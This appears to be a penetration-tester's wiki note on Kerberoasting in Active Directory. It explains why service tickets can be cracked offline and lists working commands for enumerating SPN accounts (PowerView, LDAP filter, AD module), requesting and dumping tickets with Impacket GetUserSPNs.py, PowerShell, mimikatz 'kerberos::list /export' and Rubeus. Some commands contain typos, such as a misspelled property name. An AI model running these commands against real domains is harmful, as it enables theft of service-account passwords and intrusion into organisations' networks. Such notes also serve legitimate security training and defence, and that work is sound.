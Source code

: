 #powerview #powershell #ldap #rubeus #mimikatz #impacket 
- ST can be requested by any user for any service if it's [[Active Directory/AD Concepts/Services#SPN|SPN]] is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs using
- Powerview
```powershell
Get-NetUser -SPN
```
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT (Active Directory module)
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrinicipalName
```
### Requesting TGS
- Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py mydomain.local/a.drdragon:Password!! -dc-ip <ip> -outputfile kerberoast.hash
```
- Requesting a TGS using powrshell
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/mssqldomain.mydomain.local"
# This will add the kerberos key in memeory, and can be verified with klist
klist
# The key can be extracted with mimikatz
kerberos::list /export
```
- Powerview
```powershell
Request-SPNTicket
```
- Rubeus
```powershell
.\Rubeus kerberoast /nowrap
```